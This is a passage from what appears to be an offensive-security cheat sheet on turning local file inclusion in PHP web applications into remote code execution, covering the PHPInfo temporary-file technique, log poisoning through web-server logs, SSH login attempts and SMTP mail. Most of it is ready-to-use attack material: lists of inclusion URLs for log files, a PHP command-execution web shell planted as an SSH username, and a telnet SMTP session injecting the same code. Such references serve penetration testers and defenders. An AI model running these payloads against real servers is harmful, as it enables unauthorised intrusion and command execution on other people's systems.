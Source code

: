 PHPinfo() displays the content of any variables such as **$_GET**, **$_POST** and **$_FILES**.

> By making multiple upload posts to the PHPInfo script, and carefully controlling the reads, it is possible to retrieve the name of the temporary file and make a request to the LFI script specifying the temporary file name.

Use the script [phpInfoLFI.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

Research from https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf


## LFI to RCE via controlled log file

Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.

```powershell
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```


### RCE via SSH

Try to ssh into the box with a PHP code as username `<?php system($_GET["cmd"]);?>`.

```powershell
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

Then include the SSH log files inside the Web Application.

```powershell
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```


### RCE via Mail

First send an email using the open SMTP then include the log file located at `http://example.com/index.php?page=/var/log/mail`.

```powershell
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```